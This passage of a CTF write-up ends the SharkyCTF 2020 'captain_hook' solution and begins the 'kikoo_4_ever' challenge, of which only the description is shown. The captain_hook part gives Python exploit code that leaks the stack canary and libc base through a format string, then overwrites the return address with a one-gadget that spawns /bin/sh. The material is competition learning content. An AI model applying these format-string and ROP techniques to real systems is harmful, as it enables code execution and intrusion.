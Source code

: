 ### Solution

As we know the struct of character is as follow, and we can call `edit_character` to edit the character more than 47 bytes

```c
// 0-13   name
// 32-35  age
// 36-47  date
```

When we edit the character, we can puts some format string in the behind of date for leaking info   

```python
add(0)
edit(0,'%17$p.%18$p.%19$p')
read_info(0)
ru('He\'s been locked up on 02/04/2020')
canary = eval(ru('.'))
text = eval(ru('.'))
libcbase = eval(ru('.'))-0x21b97
info_addr('canary',canary)
info_addr('text',text)
info_addr('libc',libcbase)
```

We can overwrite return address with one gadget after `canary` was leaked. 

```python
# debug('b *$rebase(0x1170)')
og = 0x4f322 + libcbase 
# 0x4f322 execve("/bin/sh", rsp+0x40, environ)
edit(0,'A'*30+p64(canary)+p64(0)+p64(og)+p64(0)*8)
```

> restore canary then overwrite return address


### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/SharkyCTF-2020/pwn/captain_hook) 



## kikoo_4_ever (600pt)
### Description

> I have a theory that anyone who spends most of their time on the internet, and has virtual friends, or not, knows at least one kikoo in their entourage. "Kikoo: A young teenager or child who uses text messaging, making numerous spelling mistakes, sometimes behaving immaturely, aggressively, vulgarly, rude, even violent, especially on the internet." - wiktionary.org That's the definition I found on wiktionary.org, but I think being a kikoo is not that pejorative, I also think you can be a kikoo no matter how old you are. Being a kikoo is having a different mentality, it's having a different humor, it's having different hobbies, being a kikoo is mostly an internet lover.
>
> After reading these few lines, and that no one has come to mind, it's that there must be a problem, if there is, we'll fix it immediately. Don't worry, I'm going to teach you how to identify a kikoo, they have very characteristic behaviours, and that's what we're going to see in a moment. Start by running the program, then listen to my instructions...
>
> Creator: Hackhim
